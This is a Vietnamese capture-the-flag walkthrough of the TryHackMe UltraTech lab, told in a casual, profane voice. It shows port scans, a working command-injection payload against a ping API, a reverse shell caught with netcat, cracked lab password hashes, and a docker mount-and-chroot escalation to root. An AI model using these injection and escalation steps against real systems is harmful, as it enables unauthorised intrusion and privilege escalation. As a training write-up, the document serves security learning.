

Mở ra Task 1 có phầm mở đầu khá dài, anh em thích đọc thì đọc, còn không thì nhấn vào cái nút Deploy màu xanh kia mà bắt đầu cho đỡ mất thời gian. TryHackMe mỗi lần Deploy sẽ ra một địa chỉ IP Lab khác nhau, nếu cảm thấy may mắn có thể đem mấy con số đó đi đánh đề. Lần này con số may mắn của tôi là 10.10.3.122, tiếc cái lúc này đã quá 18h30 nên không còn tiết mục quay số xanh đỏ nữa, hmm…
Information Gathering
Nmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14
$ nmap -A -v 10.10.3.122 PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 3.0.3 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA) | 256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA) |_ 256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519) 8081/tcp open http Node.js Express framework |_http-cors: HEAD GET POST PUT DELETE PATCH | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-title: Site doesn't have a title (text/html; charset=utf-8). Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Trước mắt là vớ được 3 cổng 21-FTP, 22-SSH và 8081-HTTP, theo sau là phiên bản của từng dịch vụ chạy trên các cổng đó. Tất nhiên nếu dùng option -A của nmap thì chỉ mới phát hiện được các cổng tiêu biểu, chứ chưa thể liệt kê được tất cả các cổng đang được mở public trên server. Để ý trong câu hỏi thuộc Task 2, có câu Which other non-standard port is used? và câu trả lời bên dưới có dạng *****, nghĩa là cổng này có 5 chữ số, trong khoảng từ 10000-65535, việc cần làm là phải tìm ra nó cái đã. Lại Nmap thôi :D
1 2 3 4 5 6 7 8 9 10
$ nmap -p 10000-65535 -T5 10.10.3.122 PORT STATE SERVICE ... 31070/tcp filtered unknown 31146/tcp filtered unknown 31331/tcp open unknown 31396/tcp filtered unknown 31610/tcp filtered unknown 31777/tcp filtered unknown ...
Lúc chờ script này hoàn thành, tôi đã xem được hết trận Navi với Astralis. Tóm được cổng 31331 đang mở, trốn kỹ đấy tml. Giờ thì xem xem thế lực nào đứng đằng sau nó.
1 2 3 4 5
$ nmap -p 31331 -sC -sV 10.10.3.122 PORT STATE SERVICE VERSION 31331/tcp open http Apache httpd 2.4.29 ((Ubuntu)) |_http-server-header: Apache/2.4.29 (Ubuntu) |_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Apache! Server này đang chạy 2 cổng HTTP, méo biết để làm gì. Mở cả 2 cái web của nó lên xem thế nào đã.
Truy cập vào /auth/, có thông báo You must specify a login and a password, có thể hình dung đây là một API, và cổng 8081 được dùng để chạy cung cấp API cho web server cổng 31331. Thử thêm param vào cho API /auth (http://10.10.3.122:8081/auth/?login=admin&password=admin), nhận lại vỏn vẹn dòng Invalid credentials. Okay :( Còn với ping thì sao (http://10.10.3.122:8081/ping)
1 2 3 4 5 6 7 8 9 10 11
TypeError: Cannot read property 'replace' of undefined at app.get (/home/www/api/index.js:45:29) at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5) at next (/home/www/api/node_modules/express/lib/router/route.js:137:13) at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3) at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5) at /home/www/api/node_modules/express/lib/router/index.js:281:22 at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12) at next (/home/www/api/node_modules/express/lib/router/index.js:275:10) at cors (/home/www/api/node_modules/cors/lib/index.js:188:7) at /home/www/api/node_modules/cors/lib/index.js:224:17
Lỗi trả về cho thấy API đang yêu cầu param, nhưng đéo ai biết param nó đang cần là gì. Với hình dung là việc API này cung cấp dịch vụ Ping, tôi nghĩ đến việc có thể lợi dụng nó để chèn lệnh (Command Injection) và lấy shell. Mường tượng ra là như thế, giờ phải đi tìm cách để sử dụng cái API Ping này cái đã. Quay lại với web server trên cổng 31331, khá chắc kèo là ở đây sẽ có đoạn code nào đó để gọi các API mà phía cổng 8081 cung cấp, từ đây có thể xác định được param cần thiết cho API là gì. Chạy dirsearch trên cổng 31331.
Tìm kiếm trong các thư mục có status 200. Các thư mục như /css/, /images/, /javascript/, /js/ thì thường tôi hay bị bỏ qua. Hoặc có vào thì cũng chỉ xem lướt lướt. Cơ mà lần này do đéo biết mò mẫm ở đâu để kiếm thêm thông tin nữa, nên tôi mở chúng lên xem. Có một điều lạ, là /javascript/ và /js/, ủa, js là viết tắt của javascript mà, sao lại phải chia ra làm 2 thư mục? Truy cập vào để thấy điều hay ho, /javascript/ từ chối truy cập, còn /js/ thì tèn ten…
function getAPIURL() { return `${window.location.hostname}:8081` } function checkAPIStatus() { const req = new XMLHttpRequest(); try { const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` req.open('GET', url, true); req.onload = function (e) { if (req.readyState === 4) { if (req.status === 200) { console.log('The api seems to be running') } else { console.error(req.statusText); } } }; req.onerror = function (e) { console.error(xhr.statusText); }; req.send(null); } catch (e) { console.error(e) console.log('API Error'); } } checkAPIStatus() const interval = setInterval(checkAPIStatus, 10000); const form = document.querySelector('form') form.action = `http://${getAPIURL()}/auth`; })();
Ở trên có thể thấy param của API này là “ip”. Nói đến đoạn này tôi cũng thấy mình ngu, ping thì chỉ có ping ip, domain thôi, chứ ai đi ping con gà con vịt? Thế mà đéo thử từ đầu cho đỡ mất thời gian.
API Command Injection
1 2 3
http://10.10.3.122:8081/ping?ip=localhost
PING localhost(localhost6.localdomain6 (::1)) 56 data bytes 64 bytes from localhost6.localdomain6 (::1): icmp_seq=1 ttl=64 time=0.016 ms --- localhost ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
Chạy mượt ngay =)) ping localhost mà không mượt thì thôi đấy. Thử chèn lệnh các kiểu xem sao.
1 2 3 4
http://10.10.3.122:8081/ping?ip=localhost%0aid
PING localhost(localhost6.localdomain6 (::1)) 56 data bytes 64 bytes from localhost6.localdomain6 (::1): icmp_seq=1 ttl=64 time=0.017 ms --- localhost ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms uid=1002(www) gid=1002(www) groups=1002(www)
Toang, dấu phân tách ở đây tôi dùng là %0a, tương ứng với ký tự ngắt dòng. Từ đoạn này tôi quay sang dùng Postman để gọi API, anh em có thể dùng Burp Suite, nó cũng chả khác mẹ gì trình duyệt đâu, chỉ là hiển thị cho đẹp thôi.
Ngon ngay, cả Python 2 và Python 3 đủ cả. Giờ thì tạo reverse shell ez game. Do server lọc dấu “;”, nên tôi phải dùng “\n” để thay thế, sẽ không cần option -e của echo để chuyển “\n” thành ký tự ngắt dòng do URL decode của server tự làm việc đó rồi.
$ nc -lnvp 4444 Listening on 0.0.0.0 4444 Connection received on 10.10.3.122 50918 www@ultratech-prod:~/api$ id id uid=1002(www) gid=1002(www) groups=1002(www) www@ultratech-prod:~/api$ ls -al ls -al total 80 drwxr-xr-x 3 www www 4096 Jan 25 15:39 . drwxr-xr-x 5 www www 4096 Mar 22 2019 .. -rw-r--r-- 1 www www 1750 Mar 22 2019 index.js drwxrwxr-x 163 www www 4096 Mar 22 2019 node_modules -rw-r--r-- 1 www www 370 Mar 22 2019 package.json -rw-r--r-- 1 www www 42702 Mar 22 2019 package-lock.json -rw-rw-r-- 1 www www 212 Jan 25 15:39 shell.py -rw-rw-r-- 1 www www 103 Mar 22 2019 start.sh -rw-r--r-- 1 www www 8192 Mar 22 2019 utech.db.sqlite www@ultratech-prod:~/api$ cat utech.db.sqlite cat utech.db.sqlite zz��etableusersusersCREATE TABLE users ( login Varchar, password Varchar, type Int ���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84www@ultratech-prod:~/api$
Game dễ! Tách username với hash password ra, ném hash đấy lên CrackStation xem có được việc gì không.

r00t:n100906 admin:mrsheafy
Get Root Shell
Chả biết thằng admin kia là ai, chỉ thấy thằng r00t có tên trong /etc/passwd, đăng nhập vào nó ngay và luôn.
1 2 3 4 5 6
www@ultratech-prod:~/api$ su r00t su r00t Password: n100906
r00t@ultratech-prod:/home/www/api$ id uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
Ối giời ơi! Docker! Kèo này có vẻ leo lên quyền root dễ thở rồi. root chứ không phải r00t nhé :/ Với Docker thì ngon lành rồi, xem có image nào không, rồi mount nó vào thư mục hệ thống, done!
1 2 3 4 5 6 7
r00t@ultratech-prod:~$ docker images REPOSITORY TAG IMAGE ID CREATED SIZE bash latest 495d6437fc1e 22 months ago 15.8MB r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# id uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)